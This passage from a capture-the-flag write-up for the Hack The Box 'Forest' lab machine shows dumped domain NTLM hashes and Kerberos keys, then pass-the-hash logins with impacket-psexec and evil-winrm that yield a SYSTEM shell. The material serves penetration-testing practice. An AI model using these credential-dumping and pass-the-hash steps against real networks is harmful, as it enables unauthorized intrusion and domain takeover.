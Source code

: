 ```
...
...
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
rocknrj:10601:aad3b435b51404eeaad3b435b51404ee:113913f113c2fc56b63640e5076ec146:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:a739b6d678b1df95b220252531110759:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
...
...
...

```
	- We find the admin password hash:
		```bash
aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
- We can psexec or winrm to target
	```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161

--OR--
evil-winrm -u administrator -H '32693b11e6aa90eb43d32c72a07ceea6' -i  10.10.10.161

---OUTPUT-PSEXEC---
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file zAHCJjEL.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service qnQM on 10.10.10.161.....
[*] Starting service qnQM.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

---OUTPUT-WINRM---
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                       
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                         
                                        
Info: Establishing connection to remote endpoint
```